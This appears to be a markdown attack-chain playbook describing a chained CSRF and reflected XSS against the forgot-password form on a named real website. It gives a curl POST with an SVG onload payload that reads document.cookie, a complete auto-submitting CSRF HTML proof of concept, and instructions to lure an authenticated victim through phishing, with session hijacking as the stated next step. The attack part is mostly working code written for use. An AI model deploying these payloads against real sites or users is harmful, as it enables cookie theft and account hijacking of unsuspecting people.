

# Chained CSRF and Reflected XSS for Arbitrary JavaScript Execution on Acronis Forgot Password Form

Multi-stage attack chain demonstrating exploitation of a reflected XSS vulnerability in the forgot password form on www.acronis.com, combined with CSRF to deliver the payload to authenticated users, leading to JavaScript execution and potential session hijacking.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Web browser for testing
- Text editor for HTML creation

### Target Environment

- Web platform
- Access to https://www.acronis.com/en-us/my/remind/index.html
- No specific ports required; standard HTTPS (443)

### Initial Access Requirements

- No credentials needed for initial testing
- Victim must be authenticated on the target site for full impact
- Network access to the internet

## Detailed Attack Procedures

### Step 1: Identify and Test Reflected XSS
procedure: [[procedures/Test-Reflected-XSS-in-Forgot-Password-Form]]

**Objective**: Identify the reflected XSS vulnerability in the 'c' parameter of the forgot password form by submitting a malicious payload and observing JavaScript execution.

**Instructions**: Use [[commands/curl-post-xss-payload]] to submit a POST request to the target endpoint with the XSS payload in the 'c' parameter.

```bash
curl -X POST https://www.acronis.com/en-us/my/remind/index.html \
  -d "token=a016902ceaeb6ae91c21302631fbbcfc" \
  -d "SN=818198181891891981981981516518198198" \
  -d "OrderId=" \
  -d "Submit=Send E-mail" \
  -d "c=1\"<!--><Svg OnLoad=(confirm)(document.cookie)<!--"
```

Observe the response for the reflected payload executing a confirm dialog displaying document.cookie.

**Expected Output**: Browser or response shows a confirm popup with cookie contents if executed in a browser context.

**Success Indicators**:
- Payload reflected without sanitization
- JavaScript executes, alerting cookie data

### Step 2: Create CSRF Delivery Mechanism
procedure: [[procedures/Create-CSRF-HTML-Page-for-XSS-Delivery]]

**Objective**: Develop an HTML page that auto-submits the form with the XSS payload to bypass direct user input and deliver via CSRF.

**Instructions**: Create an HTML file using [[commands/create-csrf-html]] containing a form with hidden fields for the required parameters and the XSS payload.

```bash
cat > csrf-poc.html << EOF
<!DOCTYPE html>
<html>
<body>
<form id="xss-csrf" action="https://www.acronis.com/en-us/my/remind/index.html" method="POST">
  <input type="hidden" name="token" value="a016902ceaeb6ae91c21302631fbbcfc">
  <input type="hidden" name="SN" value="818198181891891981981981516518198198">
  <input type="hidden" name="OrderId" value="">
  <input type="hidden" name="Submit" value="Send E-mail">
  <input type="hidden" name="c" value='1"<!--><Svg OnLoad=(confirm)(document.cookie)<!--'>
</form>
<script>document.getElementById('xss-csrf').submit();</script>
</body>
</html>
EOF
```

Host this HTML file on a server or local file to serve to the victim.

**Expected Output**: HTML file generated that auto-submits the form upon loading in a browser.

**Success Indicators**:
- Form auto-submits without user interaction
- Payload included in hidden field

### Step 3: Execute Payload on Victim
procedure: [[procedures/Demonstrate-XSS-Execution-via-CSRF]]

**Objective**: Trick an authenticated victim into loading the CSRF page, resulting in the XSS payload execution in their browser context.

**Instructions**: Have the victim open the CSRF HTML page (e.g., via phishing link). The form submits automatically, triggering the POST with the XSS payload.

No specific command needed; monitor via browser dev tools or victim feedback.

**Expected Output**: Victim's browser executes the JavaScript, showing a confirm dialog with their document.cookie.

**Success Indicators**:
- Confirm dialog appears with cookie data
- Potential for further exploitation like session hijacking

## Attack Chain Summary

### Key Achievements

1. Identified and confirmed reflected XSS in the 'c' parameter
2. Bypassed direct input requirements using CSRF for stealthy delivery
3. Demonstrated arbitrary JavaScript execution leading to data theft

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Drive-by Compromise]]
- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]
- [[Collection]]

---
*Last updated: 2024-10-01T00:00:00Z*
